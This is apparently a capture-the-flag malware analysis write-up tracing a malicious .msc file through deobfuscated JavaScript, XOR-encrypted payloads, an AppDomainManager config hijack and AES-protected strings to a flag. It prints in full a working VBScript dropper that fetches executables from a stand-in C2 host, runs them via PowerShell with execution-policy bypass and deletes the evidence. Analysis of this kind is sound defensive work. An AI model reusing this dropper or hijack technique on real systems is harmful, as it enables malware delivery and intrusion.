

```bash
$ file wanted.msc
wanted.msc: XML 1.0 document, ASCII text, with very long lines (18023)
```
Given was a file named `wanted.msc`.

# Deobfuscating JS

Looking through it, we can see an obfuscated javascript on line 92.



To deobfucate the javascript, we can use this -> https://obf-io.deobfuscate.io/



Now, we the script is more readable.

The script used `unescape()` [function](https://www.geeksforgeeks.org/javascript-unescape-function/) to decode a string in the execution process. What it does basically URL decode the string.

So, that's the next step.



Look at this specific instruction done in the script

```
chr(Asc(mid("Stxmsr$I|tpmgmxHmq$sfnWlipp0$sfnJWS0$sfnLXXTHmq$wxvYVP50$wxvYVP60$wxvYVP70$wxvWls{jmpiYVPHmq$wxvHs{rpsehTexl50$wxvHs{rpsehTexl60$wxvHs{rpsehTexl70$wxvWls{jmpiTexlHmq$wxvI|igyxefpiTexl0$wxvTs{ivWlippWgvmtxwxvYVP5$A$&lxxt>33{mrhs{wythexi2lxf3gwvww2i|i&wxvYVP6$A$&lxxt>33{mrhs{wythexi2lxf3gwvww2hpp&wxvYVP7$A$&lxxt>33{mrhs{wythexi2lxf3gwvww2i|i2gsrjmk&wxvWls{jmpiYVP$A$&lxxt>33{mrhs{wythexi2lxf3{erxih2thj&wxvHs{rpsehTexl5$A$&G>`Ywivw`Tyfpmg`gwvww2i|i&wxvHs{rpsehTexl6$A$&G>`Ywivw`Tyfpmg`gwvww2hpp&wxvHs{rpsehTexl7$A$&G>`Ywivw`Tyfpmg`gwvww2i|i2gsrjmk&wxvWls{jmpiTexl$A$&G>`Ywivw`Tyfpmg`{erxih2thj&wxvI|igyxefpiTexl$A$&G>`Ywivw`Tyfpmg`gwvww2i|i&Wix$sfnWlipp$A$GviexiSfnigx,&[Wgvmtx2Wlipp&-Wix$sfnJWS$A$GviexiSfnigx,&Wgvmtxmrk2JmpiW}wxiqSfnigx&-Wix$sfnLXXT$A$GviexiSfnigx,&QW\QP62\QPLXXT&-Mj$Rsx$sfnJWS2JmpiI|mwxw,wxvHs{rpsehTexl5-$Xlir$$$$Hs{rpsehJmpi$wxvYVP50$wxvHs{rpsehTexl5Irh$MjMj$Rsx$sfnJWS2JmpiI|mwxw,wxvHs{rpsehTexl6-$Xlir$$$$Hs{rpsehJmpi$wxvYVP60$wxvHs{rpsehTexl6Irh$MjMj$Rsx$sfnJWS2JmpiI|mwxw,wxvHs{rpsehTexl7-$Xlir$$$$Hs{rpsehJmpi$wxvYVP70$wxvHs{rpsehTexl7Irh$MjMj$Rsx$sfnJWS2JmpiI|mwxw,wxvWls{jmpiTexl-$Xlir$$$$Hs{rpsehJmpi$wxvWls{jmpiYVP0$wxvWls{jmpiTexlIrh$MjwxvTs{ivWlippWgvmtx$A$c&teveq$,&$*$zfGvPj$*$c&$$$$_wxvmrka(JmpiTexl0&$*$zfGvPj$*$c&$$$$_wxvmrka(Oi}Texl&$*$zfGvPj$*$c&-&$*$zfGvPj$*$c&(oi}$A$_W}wxiq2MS2Jmpia>>ViehEppF}xiw,(Oi}Texl-&$*$zfGvPj$*$c&(jmpiGsrxirx$A$_W}wxiq2MS2Jmpia>>ViehEppF}xiw,(JmpiTexl-&$*$zfGvPj$*$c&(oi}Pirkxl$A$(oi}2Pirkxl&$*$zfGvPj$*$c&jsv$,(m$A$4?$(m$1px$(jmpiGsrxirx2Pirkxl?$(m//-$&$*$zfGvPj$*$c&$$$$(jmpiGsrxirx_(ma$A$(jmpiGsrxirx_(ma$1f|sv$(oi}_(m$)$(oi}Pirkxla&$*$zfGvPj$*$c&&$*$zfGvPj$*$c&_W}wxiq2MS2Jmpia>>[vmxiEppF}xiw,(JmpiTexl0$(jmpiGsrxirx-&$*$zfGvPjHmq$sfnJmpiSr$Ivvsv$Viwyqi$Ri|xWix$sfnJmpi$A$sfnJWS2GviexiXi|xJmpi,&G>`Ywivw`Tyfpmg`xiqt2tw5&0$Xvyi-Mj$Ivv2Ryqfiv$@B$4$Xlir$$$$[Wgvmtx2Igls$&Ivvsv$gviexmrk$Ts{ivWlipp$wgvmtx$jmpi>$&$*$Ivv2Hiwgvmtxmsr$$$$[Wgvmtx2UymxIrh$MjsfnJmpi2[vmxiPmri$wxvTs{ivWlippWgvmtxsfnJmpi2GpswiHmq$evvJmpiTexlwevvJmpiTexlw$A$Evve},wxvHs{rpsehTexl50$wxvHs{rpsehTexl70$wxvWls{jmpiTexl-Hmq$mJsv$m$A$4$Xs$YFsyrh,evvJmpiTexlw-$$$$Hmq$mrxVixyvrGshi$$$$mrxVixyvrGshi$A$sfnWlipp2Vyr,&ts{ivwlipp$1I|igyxmsrTspmg}$F}teww$1Jmpi$G>`Ywivw`Tyfpmg`xiqt2tw5$1JmpiTexl$&$*$Glv,78-$*$evvJmpiTexlw,m-$*$Glv,78-$*$&$1Oi}Texl$&$*$Glv,78-$*$wxvHs{rpsehTexl6$*$Glv,78-0$40$Xvyi-$$$$$$$$Mj$mrxVixyvrGshi$@B$4$Xlir$$$$$$$$[Wgvmtx2Igls$&Ts{ivWlipp$wgvmtx$i|igyxmsr$jempih$jsv$&$*$evvJmpiTexlw,m-$*$&${mxl$i|mx$gshi>$&$*$mrxVixyvrGshi$$$$Irh$MjRi|xsfnWlipp2Vyr$wxvI|igyxefpiTexl0$50$XvyisfnWlipp2Vyr$wxvWls{jmpiTexl0$50$XvyisfnJWS2HipixiJmpi$&G>`Ywivw`Tyfpmg`gwvww2hpp&sfnJWS2HipixiJmpi$&G>`Ywivw`Tyfpmg`gwvww2i|i&sfnJWS2HipixiJmpi$&G>`Ywivw`Tyfpmg`gwvww2i|i2gsrjmk&sfnJWS2HipixiJmpi$&G>`Ywivw`Tyfpmg`xiqt2tw5&Wyf$Hs{rpsehJmpi,yvp0$texl-$$$$Hmq$sfnWxvieq$$$$Wix$sfnWxvieq$A$GviexiSfnigx,&EHSHF2Wxvieq&-$$$$sfnLXXT2Stir$&KIX&0$yvp0$Jepwi$$$$sfnLXXT2Wirh$$$$Mj$sfnLXXT2Wxexyw$A$644$Xlir$$$$$$$$sfnWxvieq2Stir$$$$$$$$sfnWxvieq2X}ti$A$5$$$$$$$$sfnWxvieq2[vmxi$sfnLXXT2ViwtsrwiFsh}$$$$$$$$sfnWxvieq2WeziXsJmpi$texl0$6$$$$$$$$sfnWxvieq2Gpswi$$$$Irh$Mj$$$$Wix$sfnWxvieq$A$RsxlmrkIrh$Wyf",i,1)) - (5) + (1))
```

First, it substact the characater with `4 (- (5) + (1))`, then `chr()` converts it to ASCII character.

Reverse the process, and we got a VBA script.



# File Recovering

```
Option Explicit
Dim objShell, objFSO, objHTTP
Dim strURL1, strURL2, strURL3, strShowfileURL
Dim strDownloadPath1, strDownloadPath2, strDownloadPath3, strShowfilePath
Dim strExecutablePath, strPowerShellScript
strURL1 = "http://windowsupdate.htb/csrss.exe"
strURL2 = "http://windowsupdate.htb/csrss.dll"
strURL3 = "http://windowsupdate.htb/csrss.exe.config"
strShowfileURL = "http://windowsupdate.htb/wanted.pdf"
strDownloadPath1 = "C:\Users\Public\csrss.exe"
strDownloadPath2 = "C:\Users\Public\csrss.dll"
strDownloadPath3 = "C:\Users\Public\csrss.exe.config"
strShowfilePath = "C:\Users\Public\wanted.pdf"
strExecutablePath = "C:\Users\Public\csrss.exe"

Set objShell = CreateObject("WScript.Shell")
Set objFSO = CreateObject("Scripting.FileSystemObject")
Set objHTTP = CreateObject("MSXML2.XMLHTTP")

If Not objFSO.FileExists(strDownloadPath1) Then
    DownloadFile strURL1, strDownloadPath1
End If
If Not objFSO.FileExists(strDownloadPath2) Then
    DownloadFile strURL2, strDownloadPath2
End If
If Not objFSO.FileExists(strDownloadPath3) Then
    DownloadFile strURL3, strDownloadPath3
End If
If Not objFSO.FileExists(strShowfilePath) Then
    DownloadFile strShowfileURL, strShowfilePath
End If

strPowerShellScript = _
"param (" & vbCrLf & _
"    [string]$FilePath," & vbCrLf & _
"    [string]$KeyPath" & vbCrLf & _
")" & vbCrLf & _
"$key = [System.IO.File]::ReadAllBytes($KeyPath)" & vbCrLf & _
"$fileContent = [System.IO.File]::ReadAllBytes($FilePath)" & vbCrLf & _
"$keyLength = $key.Length" & vbCrLf & _
"for ($i = 0; $i -lt $fileContent.Length; $i++) {" & vbCrLf & _
"    $fileContent[$i] = $fileContent[$i] -bxor $key[$i % $keyLength]" & vbCrLf & _
"}" & vbCrLf & _
"[System.IO.File]::WriteAllBytes($FilePath, $fileContent)" & vbCrLf

Dim objFile
On Error Resume Next
Set objFile = objFSO.CreateTextFile("C:\Users\Public\temp.ps1", True)
If Err.Number <> 0 Then
    WScript.Echo "Error creating PowerShell script file: " & Err.Description
    WScript.Quit
End If
objFile.WriteLine strPowerShellScript
objFile.Close

Dim arrFilePaths
arrFilePaths = Array(strDownloadPath1, strDownloadPath3, strShowfilePath)

Dim i
For i = 0 To UBound(arrFilePaths)
    Dim intReturnCode
    intReturnCode = objShell.Run("powershell -ExecutionPolicy Bypass -File C:\Users\Public\temp.ps1 -FilePath " & Chr(34) & arrFilePaths(i) & Chr(34) & " -KeyPath " & Chr(34) & strDownloadPath2 & Chr(34), 0, True)
    
    If intReturnCode <> 0 Then
        WScript.Echo "PowerShell script execution failed for " & arrFilePaths(i) & " with exit code: " & intReturnCode
    End If
Next

objShell.Run strExecutablePath, 1, True
objShell.Run strShowfilePath, 1, True
objFSO.DeleteFile "C:\Users\Public\csrss.dll"
objFSO.DeleteFile "C:\Users\Public\csrss.exe"
objFSO.DeleteFile "C:\Users\Public\csrss.exe.config"
objFSO.DeleteFile "C:\Users\Public\temp.ps1"

Sub DownloadFile(url, path)
    Dim objStream
    Set objStream = CreateObject("ADODB.Stream")
    objHTTP.Open "GET", url, False
    objHTTP.Send
    If objHTTP.Status = 200 Then
        objStream.Open
        objStream.Type = 1
        objStream.Write objHTTP.ResponseBody
        objStream.SaveToFile path, 2
        objStream.Close
    End If
    Set objStream = Nothing
End Sub
```

What the above script does was:
1. Download 4 files (csrss.dll, csrss.exe, csrss.exe.config, wanted.pdf) to `C:\Users\Public\` directory
2. Create `temp.ps1` which encrypt those 4 files using XOR and `csrss.dll` as the key before executing them
3. Delete the evidence

Download all the files from URL initialization as the challenge said. 

Below is a python script to decrypt those files

```py
import os

def xor_decrypt(file_path, key_path):
    with open(key_path, 'rb') as key_file:
        key = key_file.read()
    
    with open(file_path, 'rb') as file:
        file_content = bytearray(file.read())
    
    key_length = len(key)
    
    for i in range(len(file_content)):
        file_content[i] ^= key[i % key_length]
    
    with open(file_path, 'wb') as file:
        file.write(file_content)
    
    print(f"Decryption completed for: {file_path}")

def main():
    file_paths = [
        'csrss.exe,'
        'csrss.exe.config',
        'wanted.pdf'
    ]
    
    key_path = 'csrss.dll'
    
    for file_path in file_paths:
        if os.path.exists(file_path):
            xor_decrypt(file_path, key_path)
        else:
            print(f"File {file_path} does not exist.")

if __name__ == "__main__":
    main()

```

Now we have the decrypted files

```
$ file *
csrss.exe:        PE32 executable (GUI) Intel 80386 Mono/.Net assembly, for MS Windows, 3 sections
csrss.exe.config: data
wanted.pdf:       PDF document, version 1.3, 1 page(s)
```

Going through those files doesn't give anything much except for `csrss.exe.config`

```
$ strings csrss.exe.config
<configuration>
   <runtime>
      <assemblyBinding xmlns="urn:schemas-microsoft-com:asm.v1">
         <dependentAssembly>
            <assemblyIdentity name="dfsvc" publicKeyToken="205fcab1ea048820" culture="neutral" />
            <codeBase version="0.0.0.0" href="http://windowsupdate.htb/5f8f9e33bb5e13848af2622b66b2308c.json"/>
         </dependentAssembly>
      </assemblyBinding>
      <etwEnable enabled="false" />
      <appDomainManagerAssembly value="dfsvc, Version=0.0.0.0, Culture=neutral, PublicKeyToken=205fcab1ea048820" />
      <appDomainManagerType value="dfsvc" />
   </runtime>
</configuration>
```
We can see another URL on that config file. Download it.

# Reversing AES encryption

```
$ file 5f8f9e33bb5e13848af2622b66b2308c.json
5f8f9e33bb5e13848af2622b66b2308c.json: PE32+ executable (DLL) (console) x86-64 Mono/.Net assembly, for MS Windows, 2 sections
```

Because it is a .Net file, we use dnspy to disassemble it.



We can see from the code above, a ciphertext being declared. Let see how it goes in reverse order.

First it convert the ciphertext from base 64.



The next few explaination will be based on the image below.



1. An AES function being called, suggesting that AES encryption being used in the code snippet
2. CBC mode will be used for the AES encryption



3. The ciphertext was padded with zeros



4. Key being declared







For better understanding, it convert `vudzvuokmioomyialpkyydvgqdmdkdxy` to `5e7ae122602aa56d3340fbada0f62f78f246d549f340dc9df23a033f2dd29c5a` (SHA256)

5. IV being declared





For a short summary,
- ciphertext being encrypt using AES CBC mode with zero as padding
- key being used for the encryption was `5e7ae122602aa56d3340fbada0f62f78f246d549f340dc9df23a033f2dd29c5a`
- IV being used for the encryption was `tbbliftalildywic`
- convert the encryption result to base64

Now that we had all the possible information, decode the ciphertext



We got another URL to analyze. Download the file. Use `strings` command to read some of the file content.

```
$ strings xaml.xml
@USVWATAUAVAWH
   H
D$PA
L$@D
...
...
...
...
...
msvcrt.dll
kernelbase.dll
Shlwapi.dll Wininet.dll Winmm.dll
Advapi32.dll
api.s2cloud-amazon.com                                          x64 %s&&%s&&%s&&%s&&%s
%d%s
/common/oauth2/authorize?client_id=%s
{"user":"HTB{mSc_1s_b31n9_s3r10u5ly_4buSed}"}    /api/v1/homepage/%s NULL
404 Not Found!
(isAdmin)
(unknow)
Content-Length: %lu
 Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.0.0 Safari/537.36                 POST
ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789+/
```

# Flag

And yes, finally got a flag

> HTB{mSc_1s_b31n9_s3r10u5ly_4buSed}

# Findings & summary

Attacker C2 Server: http://windowsupdate.htb/

- `wanted.msc`
    - c1d786696213028cf8e77d9ef16f3ab7ec9ce4fea44a8d21be3c2ddceb09ff64 (Sha256)
    - [VirusTotal](https://www.virustotal.com/gui/file/c1d786696213028cf8e77d9ef16f3ab7ec9ce4fea44a8d21be3c2ddceb09ff64)
    - [CVE-2024-43572](https://www.broadcom.com/support/security-center/protection-bulletin/cve-2024-43572-microsoft-windows-management-console-rce-vulnerability) allow attackers to run arbitrary code within the context of the application

- `csrss.exe`
    - b5c916b0a9f8a6e1b7ca1621c7b7b931f0998bb0c6755164319b0b7e06621d43 (Sha256)
    - [VirusTotal](https://www.virustotal.com/gui/file/b5c916b0a9f8a6e1b7ca1621c7b7b931f0998bb0c6755164319b0b7e06621d43)
    - This file act as a dummy virus file to check if the security software is working properly [Link](https://en.wikipedia.org/wiki/EICAR_test_file)

 - `5f8f9e33bb5e13848af2622b66b2308c.json`
    - 353e23b24f7ef98836dd5ccd36e30ca64cac42241d17e7184cba6a0a4a802649 (Sha256)
    - [VirusTotal](https://www.virustotal.com/gui/file/353e23b24f7ef98836dd5ccd36e30ca64cac42241d17e7184cba6a0a4a802649/detection)
    - In this case, this file download `ec285935b46229d40b95438707a7efb2282f2f02.xml`

- `ec285935b46229d40b95438707a7efb2282f2f02.xml`
    - 567832aff4515a20c48feb202db80542aa47c5d699d8d258c48ae583254bf9fa (Sha256)
    - [VirusTotal](https://www.virustotal.com/gui/file/567832aff4515a20c48feb202db80542aa47c5d699d8d258c48ae583254bf9fa/detection)
